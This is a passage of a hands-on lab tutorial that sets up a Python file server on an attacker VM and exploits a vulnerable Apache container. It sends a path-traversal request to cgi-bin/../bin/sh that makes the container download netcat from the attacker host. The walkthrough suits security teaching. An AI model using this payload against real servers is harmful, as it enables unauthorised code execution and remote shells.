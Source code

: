 **Note:** it's highly likely that your local IP will resemble "`10.150.0.0/20`" because you have launched this VM in the `us-east4` region.

6. Now start a primitive python-based web-server in background mode:
    

```apache
python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```

Technically this is not a fully-functional web server, this is simply a python module that helps sharing files using HTTP protocol.

**Note:** You might see the message `Serving HTTP on 10.150.0.0/20 port 8888 (http://10.150.0.0/20:8888/)`. If you don't see a command prompt, press enter.

7. Now check whether our local web server works or not by using the curl command:
    

```apache
curl http://${LOCAL_IP}:8888
```

You should see an HTML page representing a directory `~/netcat-traditional/bin/`, which should be similar to the following:

```xml
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="nc.traditional">nc.traditional</a></li>
</ul>
<hr>
</body>
</html>
```

Now we will connect to our vulnerable Apache server and force fetch the `nc.traditional` file from our newly launched web server. We are doing this because we cannot upload any data to this container by initiating connection from the attacker instance.

8. On the container itself we initiate downloading the nc.traditional from our "attacker-instance" using the following `curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc` command:\`
    

```apache
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"
```
